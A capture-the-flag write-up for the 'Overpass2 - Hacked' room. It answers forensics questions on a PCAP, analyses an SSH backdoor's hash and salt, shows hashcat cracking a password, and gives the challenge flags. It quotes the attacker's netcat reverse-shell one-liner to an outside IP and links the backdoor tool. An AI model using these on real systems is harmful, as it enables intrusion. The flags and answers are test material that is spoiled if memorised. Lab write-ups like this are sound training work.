



# Overpass2 - Hacked 

Author : revi1337  
Date : 2022-08-17

<hr>

## Task 1. Forensics - Analyse the PCAP 

### 1. What was the URL of the page they used to upload a reverse shell? 


> /development  

<br>

### 2. What payload did the attacker use to gain access?

> exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

<br>

### 3. What password did the attacker use to privesc?

> whenevernoteartinstant

<br>

### 4. How did the attacker establish persistence?

> https://github.com/NinjaJc01/ssh-backdoor

<br>

### 5. Using the fasttrack wordlist, how many of the system passwords were crackable?


> 4

<br><hr>

## Task 2. Research - Analyse the code 

### 1.  What's the default hash for the backdoor? 


> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

<br>

### 2. What's the hardcoded salt for the backdoor?


> 1c362db832f3f864c8c2fe05f2002a05

<br>

### 3. What was the hash that the attacker used? - go back to the PCAP for this!


> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<br>

### 4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

```bash
$hashcat -m 1710 --force hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz, 2857/2921 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Wed Aug 17 19:17:18 2022, (0 secs)
Time.Estimated...: Wed Aug 17 19:17:18 2022, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   742.0 kH/s (1.14ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika

Started: Wed Aug 17 19:17:17 2022
Stopped: Wed Aug 17 19:17:20 2022
```
> november16

<br>

<br><hr>

## Task 3. Attack - Get back in! 

### 1.  The attacker defaced the website. What message did they leave as a heading? 


> H4ck3d by CooctusClan

<br>

### 2. Using the information you've found previously, hack your way back in!



> 

<br>

### 3. What's the user flag?


> thm{d119b4fa8c497ddb0525f7ad200e6567}

<br>

### 4. What's the root flag?


> thm{d53b2684f169360bb9606c333873144d}

<br>